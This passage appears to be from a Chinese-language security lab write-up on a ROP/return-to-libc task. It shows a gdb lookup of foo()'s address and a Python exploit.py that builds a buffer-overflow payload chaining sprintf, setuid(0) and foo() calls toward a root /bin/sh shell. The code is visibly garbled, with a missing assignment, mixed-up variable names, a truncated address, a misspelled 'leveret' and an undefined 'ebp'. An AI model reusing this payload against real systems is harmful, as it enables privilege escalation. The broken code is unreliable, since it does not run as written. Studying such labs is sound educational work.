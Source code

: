 由于我们上一个 Task 已经使用了 ROP，所以这一个 Task 只要稍作修改即可。

先获取 `foo()` 地址

```shell
gdb-peda$ p foo
$1 = {<text variable, no debug info>} 0x565562d0 <foo>
```

然后修改 `exploit.py`

```python
## !/usr/bin/python3
import sys

def tobytes (value):
    return (value).to_bytes(4, byteorder= 'little')

content bytearray(0xaa for i in range (24))

sh_addr = 0xffffd3e3
leaveret = 0x565562ce
sprintf_addr = 0xf7e20e40
setuid_addr = 0xf7e99e30
system_addr = 0xf7e12420
exit_addr = 0xf7e4f80
ebp_bof = 0xffffcd58
foo_addr = 0x565562d0 # CHANGED!

## setuid()'s 1st argument
sprintf_argl = ebp_bof + 12 + 5*0x20

## a byte that contains 0x00
sprintf_arg2 = sh_addr + len("/bin/sh")

## Use leaveret to return to the first sprintf()
ebp_next = ebp_bof + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

## sprintf(sprintf_argl, sprintf_arg2)
for i in range(4):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(sprintf_addr)
    content += tobytes(leaveret)
    content += tobytes(sprintf_arg1)
    content += tobytes(sprintf_arg2)
    content += b'A' * (0x20 - 5*4)
    sprintf_argl += 1

## setuid(0)
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(setuid_addr)
content += tobytes(leaveret)
content += tobytes(0xFFFFFFFF)
content += b'A' * (0x20 - 4*4)

for i in range(10): # CHANGED!
    ebp += 0x20
    content += tobytes(ebp_next)
    content += tobytes(foo_addr)
    content += tobytes(leveret)
    content += b'A'*(0x20-3*4)
```